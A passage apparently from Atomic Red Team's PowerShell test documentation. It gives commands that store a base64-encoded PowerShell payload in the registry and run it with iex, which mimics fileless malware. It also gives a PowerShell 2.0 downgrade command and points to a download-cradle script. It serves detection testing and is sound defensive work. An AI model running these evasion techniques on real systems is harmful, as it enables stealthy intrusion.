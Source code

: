 **Supported Platforms:** Windows


#### Run it with these steps! 1. Open Powershell_ise as a Privileged Account
2. Invoke-DownloadCradle.ps1







<br/>
<br/>

## Atomic Test #12 - PowerShell Fileless Script Execution
Execution of a PowerShell payload from the Windows Registry similar to that seen in fileless malware infections.

**Supported Platforms:** Windows



#### Attack Commands: Run with `powershell`! 
```
# Encoded payload in next command is the following "Set-Content -path "$env:SystemRoot/Temp/art-marker.txt" -value "Hello from the Atomic Red Team""
reg.exe add "HKEY_CURRENT_USER\Software\Classes\AtomicRedTeam" /v ART /t REG_SZ /d "U2V0LUNvbnRlbnQgLXBhdGggIiRlbnY6U3lzdGVtUm9vdC9UZW1wL2FydC1tYXJrZXIudHh0IiAtdmFsdWUgIkhlbGxvIGZyb20gdGhlIEF0b21pYyBSZWQgVGVhbSI="
iex ([Text.Encoding]::ASCII.GetString([Convert]::FromBase64String((gp 'HKCU:\Software\Classes\AtomicRedTeam').ART)))
```

#### Cleanup Commands:
```
cmd /c del /Q /F %SystemRoot%\Temp\art-marker.txt
cmd /c REG DELETE "HKEY_CURRENT_USER\Software\Classes\AtomicRedTeam" /f
```





<br/>
<br/>

## Atomic Test #13 - PowerShell Downgrade Attack
Attempts to run powershell commands in version 2.0 https://www.leeholmes.com/blog/2017/03/17/detecting-and-preventing-powershell-downgrade-attacks/

**Supported Platforms:** Windows



#### Attack Commands: Run with `powershell`! 
```
powershell.exe -version 2 -Command Write-Host $PSVersion
```
